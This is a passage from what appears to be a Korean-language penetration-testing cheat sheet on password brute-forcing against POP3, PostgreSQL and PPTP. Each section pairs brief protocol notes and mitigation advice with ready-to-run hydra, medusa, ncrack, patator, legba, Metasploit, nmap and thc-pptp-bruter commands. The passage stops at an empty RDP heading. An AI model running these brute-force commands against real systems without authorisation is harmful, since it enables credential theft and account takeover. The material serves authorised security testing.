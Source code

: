 POP (Post Office Protocol)는 전자 메일을 수신하는 데 사용되는 인터넷 프로토콜입니다. POP는 일반적으로 이메일 클라이언트와 이메일 서버 간의 통신에 사용됩니다. 이 프로토콜은 사용자의 이메일 서버에서 이메일을 다운로드하여 로컬 컴퓨터에 저장합니다.

POP는 일반적으로 TCP 포트 110을 사용하여 통신합니다. 이메일 클라이언트는 POP 서버에 연결하여 사용자의 계정 자격 증명을 제공하고, 이메일을 다운로드하고, 서버에서 이메일을 삭제하는 등의 작업을 수행합니다.

POP는 보안 기능이 제한적이며, 암호화되지 않은 텍스트로 사용자의 계정 자격 증명을 전송합니다. 따라서, POP를 사용할 때는 보안에 주의해야 합니다. 암호화된 연결을 사용하거나, 대신 IMAP (Internet Message Access Protocol)와 같은 보다 안전한 프로토콜을 고려할 수 있습니다.

POP는 또한 브루트 포스 공격에 취약할 수 있습니다. 브루트 포스 공격은 모든 가능한 조합의 비밀번호를 시도하여 올바른 비밀번호를 찾는 공격입니다. 이를 방지하기 위해 강력한 비밀번호를 사용하고, 계정 잠금 기능을 활성화하는 것이 좋습니다.
```bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V

# Insecure
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:110

# SSL
legba pop3 --username admin@example.com --password wordlists/passwords.txt --target localhost:995 --pop3-ssl
```
### PostgreSQL

PostgreSQL은 오픈 소스 객체-관계형 데이터베이스 관리 시스템(ORDBMS)입니다. PostgreSQL은 다양한 기능과 확장성을 제공하여 데이터베이스 관리를 용이하게 합니다. 이 데이터베이스 시스템은 안정성, 신뢰성 및 성능에 중점을 둡니다.

PostgreSQL 데이터베이스에 대한 무차별 대입(brute force) 공격은 암호를 추측하여 데이터베이스에 액세스하는 시도입니다. 이러한 공격은 일반적으로 암호화되지 않은 연결을 통해 이루어지며, 암호화된 연결을 사용하는 경우에도 가능합니다.

PostgreSQL 무차별 대입 공격을 방지하기 위해 다음과 같은 조치를 취할 수 있습니다.

- 강력한 암호 정책을 설정하여 암호의 복잡성을 강화합니다.
- 계정 잠금 정책을 설정하여 일정 횟수 이상의 실패한 로그인 시도로부터 계정을 보호합니다.
- IP 주소 기반의 접근 제어 목록을 구성하여 허용되지 않은 IP 주소에서의 액세스를 차단합니다.
- 암호화된 연결을 사용하여 데이터베이스에 접속합니다.

PostgreSQL 데이터베이스에 대한 무차별 대입 공격은 보안 위협으로 간주되며, 적절한 보안 조치를 취하여 데이터베이스를 보호해야 합니다.
```bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M postgres
ncrack –v –U /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP>:5432
patator pgsql_login host=<IP> user=FILE0 0=/root/Desktop/user.txt password=FILE1 1=/root/Desktop/pass.txt
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
legba pgsql --username admin --password wordlists/passwords.txt --target localhost:5432
```
### PPTP

[https://http.kali.org/pool/main/t/thc-pptp-bruter/](https://http.kali.org/pool/main/t/thc-pptp-bruter/)에서 `.deb` 패키지를 다운로드하여 설치할 수 있습니다.
```bash
sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
### RDP
